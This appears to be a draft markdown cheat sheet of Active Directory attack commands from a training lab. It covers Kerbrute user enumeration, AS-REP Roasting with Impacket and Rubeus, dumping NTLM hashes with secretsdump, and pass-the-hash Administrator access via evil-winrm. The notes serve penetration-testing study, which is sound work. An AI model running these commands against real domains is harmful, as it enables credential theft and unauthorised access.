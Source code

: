 ```yaml
---
description: Draft --work in progress
---
```


# Active Directory

### Enumeration

#### Kerbrute

```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

### AS-REP Roasting

After enumerating users with Kerbrute we can attempt AS-REP Roasting. When users have the "Does not require Pre-Authentication" flag set we can use this attack to request a ticket without credentials.

#### Impacket (remote attack)

```
Impacket -- sudo python3 GetNPUsers.py -usersfile users.txt spookysec.local/username
```

#### Rubeus (if you have access)

```
Rubeus.exe asreproast
```

### Dumping Secrets

If you obtain the credentials for the backup account, you may be able to use another tool in impacket (secretsdump.py) to dump all NTLM hashes.

```
python3 secretsdump.py backup:backup2517860@10.10.46.161
```

### Accessing Remote Machines

Once you have the NTLM hashes you can access any machine on the domain using Evil-WinRM

```
evil-winrm -i 10.10.46.161 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
